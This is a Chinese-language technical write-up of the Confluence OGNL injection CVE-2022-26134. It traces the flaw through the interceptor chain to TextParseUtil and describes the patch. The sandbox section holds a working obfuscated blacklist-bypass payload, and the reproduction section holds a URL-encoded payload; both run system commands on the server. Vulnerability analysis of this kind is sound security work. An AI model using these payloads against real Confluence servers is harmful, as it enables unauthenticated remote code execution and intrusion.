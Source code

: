 - [CVE-2022-26134 未授权 OGNL表达式注入](#cve-2022-26134-未授权-ognl表达式注入)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [DefaultActionInvocation](#defaultactioninvocation)
    - [ConfluenceAccessInterceptor](#confluenceaccessinterceptor)
    - [executeResult](#executeresult)
    - [ActionChainResult](#actionchainresult)
    - [TextParseUtil](#textparseutil)
    - [关于沙盒](#关于沙盒)
  - [漏洞复现](#漏洞复现)
  - [补丁](#补丁)
  - [参考](#参考)
# CVE-2022-26134 未授权 OGNL表达式注入
## 影响版本
All supported versions of Confluence Server and Data Center are affected.
Confluence Server and Data Center versions after 1.3.0 are affected.
## 环境搭建
`docker run --name="confluence" -e JVM_SUPPORT_RECOMMENDED_ARGS="-Xdebug -Xrunjdwp:transport=dt_socket,server=y,suspend=n,address=*:5005" -d
 -p 8090:8090 -p 5005:5005 -p 8091:8091 atlassian/confluence-server:7.12.4-ubuntu-18.04-adoptopenjdk11`
## 原理分析
### DefaultActionInvocation
Coufluence是基于Xwork框架开发,在执行一个action前,该请求会经过设置的拦截器进行处理后再生成对应的action对象执行.  
而拦截器是链式结构,其中链式的实现过程如下:
![](2022-06-13-15-28-46.png)  
在DefaultActionInvocation类中的invoke()方法开始进行拦截器的循环遍历执行,最终得到一个resultCode.  
可以看到在拦截器调用时,传入了一个参数为DefaultActionInvocation类本身,这是因为在每一个拦截器中,其完成相应功能后会调用传入的这个DefaultActionInvocation对象的invoke方法,从而再次进入该DefaultActionInvocation类中,以此来循环执行所有注册的拦截器.  
以FlashScopeInterceptor拦截器为例  
![](2022-06-13-15-33-19.png)  
可以看到最后调用的actionInvocation.invoke()即是返回DefaultActionInvocation类中继续调用下一个拦截器.
### ConfluenceAccessInterceptor
而某些拦截器中,可能不会继续调用actionInvocation.invoke()来跳出拦截器的循环.  
以ConfluenceAccessInterceptor拦截器为例,该拦截器是充当一个权限校验的功能,可以看到如果请求的action不允许访问则会返回一个字符串来跳出拦截器的执行链.  
![](2022-06-13-16-21-37.png)
### executeResult
而在拦截器执行完成后且该action还未被执行就会进行下面的流程,其中会调用this.executeResult()方法.
![](2022-06-13-15-53-20.png)  
而在executeResult中则会通过createResult来得到一个Result,在createResult主要是根据proxy类型来生成对应的Result对象.  
![](2022-06-13-15-57-34.png)  
而在DefaultActionInvocation类中,proxy类型为ActionProxy.
![](2022-06-13-15-58-01.png)  
所以此处返回的的Result对象其实为ActionChainResult实例对象.  
然后得到result对象后继续执行result对象的execute方法.
### ActionChainResult
在ActionChainResult类的execute中首先获取到Namespace,然后和一个OGNL执行栈一起带入到TextParseUtil.translateVariables()方法中.  
![](2022-06-13-16-07-26.png)  
而Namespace的值则是在ServletDispatcher分发器在创建DefaultActionInvocation时指定.  
![](2022-06-13-16-13-11.png)  
可以看到Namespace的值即为请求URL中第一个`/`前的字符串.  
![](2022-06-13-16-14-28.png)  
### TextParseUtil
而在TextParseUtil中可以看到namespace的值经过正则之后被直接带入了OGNL表达式中进行计算,导致OGNL表达式注入.  
![](2022-06-13-16-16-46.png)
### 关于沙盒
因为去年confluence也存在一个OGNL表达式注入漏洞,所以7.15之后的版本都增加了一个OGNL执行的黑名单.但黑名单总会被绕过的,在最新的黑名单限制中没有限制class.forname()获取类对象来反射调用,所以如下poc也可:
```
${Class.forName("com.opensymphony.webwork.ServletActionContext").getMethod("getResponse",null).invoke(null,null).setHeader("X-CMD",Class.forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("nashorn").eval("eval(String.fromCharCode(118,97,114,32,115,61,39,39,59,118,97,114,32,112,112,32,61,32,106,97,118,97,46,108,97,110,103,46,82,117,110,116,105,109,101,46,103,101,116,82,117,110,116,105,109,101,40,41,46,101,120,101,99,40,39,105,100,39,41,46,103,101,116,73,110,112,117,116,83,116,114,101,97,109,40,41,59,119,104,105,108,101,32,40,49,41,32,123,118,97,114,32,98,32,61,32,112,112,46,114,101,97,100,40,41,59,105,102,32,40,98,32,61,61,32,45,49,41,32,123,98,114,101,97,107,59,125,115,61,115,43,83,116,114,105,110,103,46,102,114,111,109,67,104,97,114,67,111,100,101,40,98,41,125,59,115))"))}
```
## 漏洞复现
`%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/`
![](2022-06-13-16-27-36.png)
## 补丁
不再使用TextParseUtil类对namespace等进行处理.
![](2022-06-13-16-35-40.png)
## 参考
https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html  
https://github.com/vulhub/vulhub/blob/master/confluence/CVE-2022-26134/README.zh-cn.md